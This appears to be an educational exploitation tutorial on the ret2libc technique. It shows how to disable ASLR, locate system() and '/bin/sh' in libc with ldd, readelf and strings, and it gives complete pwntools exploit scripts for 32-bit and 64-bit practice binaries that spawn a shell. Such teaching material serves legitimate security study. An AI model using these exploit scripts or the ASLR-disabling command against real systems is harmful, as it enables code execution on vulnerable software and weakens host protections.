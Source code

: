 ```yaml
---
description: The standard ROP exploit
---
```


# ret2libc

A ret2libc is based off the `system` function found within the C library. This function executes anything passed to it making it the best target. Another thing found within libc is the string `/bin/sh`; if you pass this string to `system`, it will pop a shell.

And that is the entire basis of it - passing `/bin/sh` as a parameter to `system`. Doesn't sound too bad, right?

{% file src="../../../.gitbook/assets/ret2libc \(1\).zip" caption="ret2libc" %}

## Disabling ASLR

To start with, we are going to disable ASLR. ASLR randomises the location of libc in memory, meaning we cannot \(without other steps\) work out the location of `system` and `/bin/sh`. To understand the general theory, we will start with it disabled.

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Manual Exploitation

### Getting Libc and its base

Fortunately Linux has a command called `ldd` for dynamic linking. If we run it on our compiled ELF file, it'll tell us the libraries it uses and their base addresses.

```text
$ ldd vuln-32 
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dc2000)
	/lib/ld-linux.so.2 (0xf7fd3000)
```

We need `libc.so.6`, so the base address of libc is `0xf7dc2000`.

{% hint style="info" %}
Libc base and the system and /bin/sh offsets may be different for you. This isn't a problem - it just means you have a different libc version. Make sure you use **your** values.
{% endhint %}

### Getting the location of system\(\)

To call system, we obviously need its location in memory. We can use the `readelf` command for this.

```text
$ readelf -s /lib32/libc.so.6 | grep system

1534: 00044f00    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0
```

The `-s` flag tells `readelf` to search for symbols, for example functions. Here we can find the offset of system from libc base is `0x44f00`.

### Getting the location of /bin/sh

Since `/bin/sh` is just a string, we can use `strings` on the dynamic library we just found with `ldd`. Note that when passing strings as parameters you need to pass a **pointer** to the string, not the hex representation of the string, because that's how C expects it.

```text
$ strings -a -t x /lib32/libc.so.6 | grep /bin/sh
18c32b /bin/sh
```

`-a` tells it to scan the entire file; `-t x` tells it to output the offset in hex.

### 32-bit Exploit

```python
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
system = libc_base + 0x44f00
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

### 64-bit Exploit

Repeat the process with the `libc` linked to the 64-bit exploit \(should be called something like `/lib/x86_64-linux-gnu/libc.so.6`\).

Note that instead of passing the parameter in after the return pointer, you will have to use a `pop rdi; ret` gadget to put it into the RDI register.

```text
$ ROPgadget --binary vuln-64 | grep rdi

[...]
0x00000000004011cb : pop rdi ; ret
```

```python
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
```

## Automating with Pwntools

Unsurprisingly, pwntools has a bunch of features that make this much simpler.

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # grab string location

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

The 64-bit looks essentially the same.

{% hint style="info" %}
Pwntools can simplify it even more with its ROP capabilities, but I won't showcase them here.
{% endhint %}

